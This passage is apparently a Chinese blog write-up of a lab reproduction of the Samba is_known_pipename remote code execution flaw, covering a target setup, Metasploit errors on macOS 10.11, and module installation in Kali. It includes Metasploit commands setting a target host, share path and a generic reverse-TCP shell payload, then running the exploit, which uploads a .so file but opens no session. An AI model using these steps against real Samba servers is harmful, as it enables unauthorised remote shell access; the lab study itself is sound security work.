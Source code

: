 ```bash
/etc/init.d/smbd stop   #关闭
/etc/init.d/smbd restart #重启
```
开启后，尝试远程访问一下：\\\\ip，经过测试我发现可以匿名登录，登录以后也有写权限。

靶机搭建完毕，接下来就开启MSF神器吧。

#### MAC10.11版本不支持最新版MSF
　　首先我在MAC上更新了msf，直接敲命令：*msfupdate*，没过多久更新成功了，于是我准备启动msf，输入命令：*msfconsole*，结果报错了（一脸懵逼，早知道就加载exploit文件就行了）。
```bash
dyld: lazy symbol binding failed: Symbol not found: _clock_gettime
  Referenced from: /opt/metasploit-framework/embedded/lib/libruby.2.4.1.dylib (which was built for Mac OS X 10.12)
  Expected in: /usr/lib/libSystem.B.dylib

dyld: Symbol not found: _clock_gettime
  Referenced from: /opt/metasploit-framework/embedded/lib/libruby.2.4.1.dylib (which was built for Mac OS X 10.12)
  Expected in: /usr/lib/libSystem.B.dylib

/opt/metasploit-framework/bin/msfdb: line 23:  4721 Trace/BPT trap: 5       ruby "$INSTALL_DIR/embedded/framework/msfdb" "$@"
dyld: lazy symbol binding failed: Symbol not found: _clock_gettime
  Referenced from: /opt/metasploit-framework/embedded/lib/libruby.2.4.1.dylib (which was built for Mac OS X 10.12)
  Expected in: /usr/lib/libSystem.B.dylib

dyld: Symbol not found: _clock_gettime
  Referenced from: /opt/metasploit-framework/embedded/lib/libruby.2.4.1.dylib (which was built for Mac OS X 10.12)
  Expected in: /usr/lib/libSystem.B.dylib

/opt/metasploit-framework/bin/msfconsole: line 123:  4725 Trace/BPT trap: 5       $BIN/ruby $FRAMEWORK/$cmd $db_args "$@"
```
　　本人第一次碰见这个报错，于是只能上google查找解决方案，翻查一会在Github的[Issues](https://github.com/rapid7/metasploit-framework/issues/8302)中发现了这个错误，错误原因是mac10.11版本不支持最新版的msf，需要将mac升级到10.12然后升级xcode。此时我的心情是崩溃的，首先我的是黑苹果，好不容易安装10.11成功了，想要突破到10.12谈何容易，其次msf已经被我升级了，怎么回退啊请问！

<font color="#0593d3">注：其实不需要利用msfupdate更新msf，即使更新了也要自己加载exploit模块，因此只需要将is_known_pipename.rb文件放到msf的modules目录下即可。（当时sb了）</font>

#### Payload无法加载？
　　舒缓心情后，继续折腾，那么既然mac上的msf不能用了，我就只能开一个虚拟机，好在之前虚拟机里面安装过kali，因此这回直接可以用了。打开kali后，我原本也想用msfupdate更新msf到最新版，但想想其实主要就是下载那个sabma漏洞的利用脚本。为了俭省时间，我直接去github上下载了is_known_pipename.rb，然后扔进了*/usr/share/metasploit-framework/modules/exploits/linux/samba/*目录下。然而当我运行msfconsole，加载is_known_pipename模块后，发现没有payload模块可以选择，因此攻击不能成功。

#### Session回连失败
　　事实证明当时是我打错了，应该不存在payload无法加载的问题。等我成功加载了此模块以及payload，也设置好参数了，可悲剧的事情又发生了，exploit实施攻击后，向靶机写入文件成功了，但是没有回链session。
MSF参数设置：
```bash
set rhost 172.16.1.2 
set smb_share_base /home/nmask/share 
set payload generic/shell_reverse_tcp
exploit
```
Exploit后回显的部分信息：
```bash
Exploit completed,but no session was created
```
查看共享文件夹，已经成功生成.so文件：
![](/upload_image/20170525/4.png)